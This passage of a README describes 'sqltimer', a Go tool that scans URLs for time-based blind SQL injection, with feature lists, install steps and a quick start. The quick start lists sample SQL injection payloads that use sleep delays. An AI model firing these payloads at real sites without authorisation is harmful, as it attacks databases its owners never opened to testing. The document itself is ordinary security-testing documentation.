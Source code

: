 * 🔗 Full **proxy support** with `-proxy`.
* 🔁 **Replay proxy** for vulnerable findings only (`-replay-proxy`).
* 🛠️ Modular replay engine supports full POST replay with correct content types and headers.

### 🧵 Performance & Control

* 🧵 **Multi-threaded scanning** using `-threads` to control concurrency.
* 💤 Adjustable **delay between requests** with `-delay`, applies to base and payloads.
* ⏳ **Adaptive timeout** calculated using `sleep * timeoutmultiplier + timeoutbuffer`.

### 🧼 Output & UX

* 🧹 **Clean mode** (`-clean`) to output only vulnerable URLs (ideal for piping).
* 🔔 Integration with **ProjectDiscovery notify** for real-time alerts (`-notify`).
* 🔧 **Color-coded debug logs** with detailed CLI feedback (`-debug`).
* 📛 **Legend, banners, and prefixes** for clean, readable output.

### 📥 Input Validation

* 🚫 Skips **invalid or malformed URLs** from stdin (with debug messages).
* ✅ Ensures payloads in file are syntactically valid and informative when skipped.

---

## 📦 Installation

Requires **Go 1.18+**

```bash
go install github.com/c1phy/sqltimer/cmd/sqltimer@latest
```

The binary `sqltimer` will be available in your `$GOBIN` directory.

---

## 🚀 Quick Start

### 1. Prepare a list of target URLs

Each URL must contain at least one GET parameter:

```txt
https://target.com/page?id=1
https://site.org/search?q=test
```

Save as `urls.txt`.

---

### 2. Create your payloads (with `{SLEEP}` placeholder)

```txt
(select*from(select(sleep({SLEEP}))a)
' OR sleep({SLEEP}) --
1') AND SLEEP({SLEEP}) AND ('1'='1
" OR sleep({SLEEP})) --
```
